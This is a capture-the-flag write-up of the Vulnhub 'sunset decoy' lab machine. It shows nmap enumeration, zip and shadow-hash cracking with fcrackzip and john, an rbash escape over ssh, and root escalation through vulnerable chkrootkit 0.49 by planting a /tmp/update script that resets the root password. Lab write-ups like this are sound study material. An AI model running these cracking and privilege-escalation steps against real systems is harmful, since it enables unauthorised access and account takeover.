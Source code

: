 ```yaml
---
title: Vulnhub - sunset decoy
description: My writeup on sunset decoy box.
categories:
 - vulnhub
tags: vulnhub rbash ssh chkrootkit john shadow
---
```


![](https://pbs.twimg.com/media/Dsh2wzTWkAEgsd0.jpg)

Hi all, just pwned this fresh new vulnhub box. A good one to relax after a hard day, let's pwn it!

You can find the machine there > [sunset decoy](https://www.vulnhub.com/entry/sunset-decoy,505/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.123
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 02:30 EEST
Nmap scan report for 60832e9f188106ec5bcc4eb7709ce592.zte.com.cn (192.168.1.123)
Host is up (0.00057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
MAC Address: 08:00:27:11:D0:A3 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Webpage has only a `save.zip` file let's download it.

```
$ wget -q http://$ip/save.zip
decoy unzip save.zip 
Archive:  save.zip
[save.zip] etc/passwd password: 
```

Needs a password, no problem. Let's fire up my favorite `fcrackzip`:

```
$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt save.zip 

PASSWORD FOUND!!!!: pw == manuel
$ unzip -P manuel save.zip 
Archive:  save.zip
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname 
```

## Cracking user password - Shell access

Seems like a copy of `/etc`, let's focus on `shadow` file since it contains user passwords in encrypted format. I saved the user password in a file and i'll run john on it.

```
$ cat password 
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.
$ john --wordlist=/usr/share/wordlists/rockyou.txt password
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828)
1g 0:00:00:06 DONE (2020-07-10 02:36) 0.1631g/s 2798p/s 2798c/s 2798C/s felton..Hunter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Bingo! ;) Let's login in:

```
$ ssh 296640a3b825115a47b68fc44501c828@$ip
296640a3b825115a47b68fc44501c828@192.168.1.123's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul  9 19:03:50 2020 from 192.168.1.16
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cd
-rbash: cd: restricted
```

## rbash bypass 

Oh we're into `rbash`!

`rbash = restricted shell` Restricts some of the system capabilities like commands etc 

Here we can do a trick to bypass it with ssh:

```
$ ssh 296640a3b825115a47b68fc44501c828@$ip -t "bash --noprofile"
296640a3b825115a47b68fc44501c828@192.168.1.123's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami
bash: whoami: command not found
```

All the commands now return `command not found`, we have to fix the `PATH`:

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $PATH
PATH:/home/296640a3b825115a47b68fc44501c828/
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami;id
296640a3b825115a47b68fc44501c828
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
```

## user -> root - exploiting chkrootkit

Now privesc is simple, we can see this `SV-502` directory in home. If we follow it we can see a `log.txt` that provide a really useful information:

`2020/06/27 18:56:58 CMD: UID=0    PID=12386  | tar -xvzf chkrootkit-0.49.tar.gz`

System runs a vulnerable version of `chkrootkit`, let's search for possible exploits.

```
$ searchsploit chkrootkit
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                                                                                                   | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                                                                                           | linux/local/33899.txt
```

Let's read `linux/local/33899.txt`:

```
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
```

`update` file under `/tmp` will be executed as root. We can simply change root password!

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ touch update; chmod +x update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ nano update 
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ cat update
#!/bin/bash
echo 'root:pwned' | sudo chpasswd
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ su - root
Password: 
root@60832e9f188106ec5bcc4eb7709ce592:~# whoami
root
```

Perfect! ;) Let's read the flag:

```
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_


1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```

Fun box! :)
